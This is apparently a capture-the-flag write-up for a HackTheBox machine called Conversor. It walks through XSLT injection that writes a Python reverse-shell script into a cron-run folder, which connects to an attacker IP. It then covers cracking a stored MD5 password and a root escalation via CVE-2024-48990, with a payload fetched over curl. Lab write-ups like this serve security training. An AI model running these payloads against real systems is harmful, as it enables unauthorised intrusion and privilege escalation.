






### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oA nmap.txt
```



we can see port `22` with ssh on it, and port `80` with http server, in this case `apache`.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://conversor.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: conversor.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `conversor.htb` to our `/etc/hosts`:
```bash
10.129.122.130  conversor.htb
```

### Exploit XSLT and cronjobs to get upload reverse shell in python

When we access the website, we can see the register and login page. 
After creating user and successfully login, we can see that there is some box to upload our `xml` and `xslt` files.

In addition, inside the `/about` page we can download the source code.

After downloading the source code, we first going to the folder `instance`, where we can find the `users.db` file, which is `sqlite3` database:
```bash
┌──(agonen㉿kali)-[~/htb/Conversor/source_code]
└─$ ls instance            
users.db
```

However, everything is empty, nothing's there:
```bash
┌──(agonen㉿kali)-[~/htb/Conversor/source_code]
└─$ sqlite3 instance/users.db 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
files  users
sqlite> select * from users;
sqlite> select * from files;
sqlite> 
```

Next, we can see the `install.md` file:
```bash
┌──(agonen㉿kali)-[~/htb/Conversor/source_code]
└─$ cat install.md 
To deploy Conversor, we can extract the compressed file:

"""
tar -xvf source_code.tar.gz
"""

We install flask:

"""
pip3 install flask
"""

We can run the app.py file:

"""
python3 app.py
"""

You can also run it with Apache using the app.wsgi file.

If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
```

As we can see, it executes all files from `/var/www/conversor.htb/scripts/` which are python scripts, as a cron job task every minute.

In addition, in this window we can upload our own `xslt` and `xxe` files.



Here we can try to achieve `XSLT Injection`, and also `XXE`. We'll use the `XSLT` from here, [https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/#write-files-with-exslt-extension](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/#write-files-with-exslt-extension).

Our xml file will be:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<sample>
</sample>
```

and our `xslt` file will be:
```xslt
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="/var/www/conversor.htb/static/images/evil.txt" method="text">
      Hello World!
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

As you can see, i'm trying to upload file to `/var/www/conversor.htb/static/images/evil.txt`. Next, after sending this payload, we can check at [http://conversor.htb/static/images/evil.txt](http://conversor.htb/static/images/evil.txt), to verify the evil uploading.



Okay, let's upload malicious python script to `/var/www/conversor.htb/scripts/`.
This will be our `xslt` file, i chose payload from [https://www.revshells.com/](https://www.revshells.com/), which gives me reverse shell:
```xslt
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="/var/www/conversor.htb/scripts/reverse_shell.py" method="text">import os,pty,socket;s=socket.socket();s.connect(("10.10.16.23",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

And here you can see the reverse shell i got, notice i'm using the tool `penelope`, very recommended!



### Crack hash from sqlite3 database, and then own fismathack and also user flag

Let's go to the instance folder, and dump `users.db`:
```bash
www-data@conversor:~/conversor.htb/instance$ sqlite3 users.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
files  users
sqlite> select * from users;
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
```

We can use [https://crackstation.net/](https://crackstation.net/) to crack the hash `5b5c3ac3a1c897c94caad48e6c71fdec`.
The password we get is `Keepmesafeandwarm`.



So, now we have the credentials `fismathack \ Keepmesafeandwarm`.

using `su fismathack` we move to the user `fismathack`, and we can grab user flag:
```bash
fismathack@conversor:~$ cat user.txt 
bac9a55f38abbf7b1b3d3867cd36e982
```

### Privilege Escalation to Root

We can execute `sudo -l` and inspect the results:
```bash
fismathack@conversor:~$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

So, we can execute `/usr/sbin/needrestart`. When we google, we can find `CVE-2024-48990` which gives us privilege escalation. We'll use this exploit, with few changes [https://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing](https://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing).
The reason we need to modify several things, is because we don't have `gcc` on the victim machine.

This will be our `maker.sh` file, that we execute on our local machine:
```bash

```

```bash
┌──(agonen㉿kali)-[~/htb/Conversor]
└─$ ./maker.sh       
                                                                                                                                                          
┌──(agonen㉿kali)-[~/htb/Conversor]
└─$ ls    
__init__.so  lib.c  maker.sh
```

After making the files, we can set up python http server:
```bash
┌──(agonen㉿kali)-[~/htb/Conversor]
└─$ python3 -m http.server 8081                     
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Now, let's move to the victim machine, here we first get `__init__.so` to home folder:
```bash
fismathack@conversor:~$ curl http://10.10.16.23:8081/__init__.so -o __init__.so
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15520  100 15520    0     0  20910      0 --:--:-- --:--:-- --:--:-- 20916
fismathack@conversor:~$ ls
__init__.so  runner.sh  user.txt
```

Now, we can execute `runner.sh`:
```bash

```

Then, we open another session using different window, login via `ssh` and triggering the exploit, by executing `needrestart`
```bash
fismathack@conversor:~$ sudo /usr/sbin/needrestart 
Scanning processes...                                                                                                                            
Scanning linux images...                                                                                                                         

Running kernel seems to be up-to-date.

No services need to be restarted.

No containers need to be restarted.

No user sessions are running outdated binaries.

No VM guests are running outdated hypervisor (qemu) binaries on this host.
```



```bash
Waiting for norestart execution...
Ensure you remove yourself from sudoers on the poc file after
sudo sed -i '/ALL ALL=NOPASSWD: \/tmp\/poc/d' /etc/sudoers
As well as remove excess files created:
rm -rf malicious/ poc
Got shell!, delete traces in /tmp/poc, /tmp/malicious
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
b9a4b6599c5fc81720d599b656d941ae
```


**User Flag:*****`bac9a55f38abbf7b1b3d3867cd36e982`***

**Root Flag:*****`b9a4b6599c5fc81720d599b656d941ae`***
